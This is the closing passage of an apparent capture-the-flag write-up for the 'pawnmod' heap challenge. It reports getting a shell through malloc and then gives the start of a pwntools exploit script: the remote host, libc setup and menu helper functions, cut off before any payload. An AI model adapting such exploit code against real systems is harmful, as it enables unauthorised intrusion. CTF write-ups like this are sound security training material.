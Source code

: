 After this, calling `malloc` again gave us a shell!

## Exploit script

```python
#!/usr/bin/python

from pwn import *
import sys

remote_ip, port = 'shell.actf.co', 21706
binary = './pawnmod'
brkpts = '''
'''

elf = ELF("pawnmod")
libc = ELF("libc.so.6")

context.terminal = ['tmux', 'splitw', '-h']
context.arch = "amd64"
context.log_level = "debug"

re = lambda a: io.recv(a)
reu = lambda a: io.recvuntil(a)
rl = lambda: io.recvline()
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla = lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

uu64 = lambda a: u64(a.ljust(8,"\x00"))

if len(sys.argv) > 1:
    io = remote(remote_ip, port)
    context.noptrace = True

else:
    io = process(binary, env = {'LD_PRELOAD' : './libc.so.6'})

def choice(idx):
    sla("Delete Board\n", str(idx))

def add(idx):
    choice(1)
    sla("index?\n", str(idx))

def view(idx):
    choice(2)
    sla("index?\n", str(idx))

def move(idx, a1, a2, b1, b2):
    choice(3)
    sla("index?\n", str(idx))
    sla("spaces.\n", str(a1)+" "+str(a2))
    sla("spaces.\n", str(b1)+" "+str(b2))
    global mov_count
    if "Invalid" not in rl():
        mov_count = mov_count + 1

def move_x(idx, lane, src, dest):
    global mov_count
    while src > dest:
        choice(3)
        sla("index?\n", str(idx))
```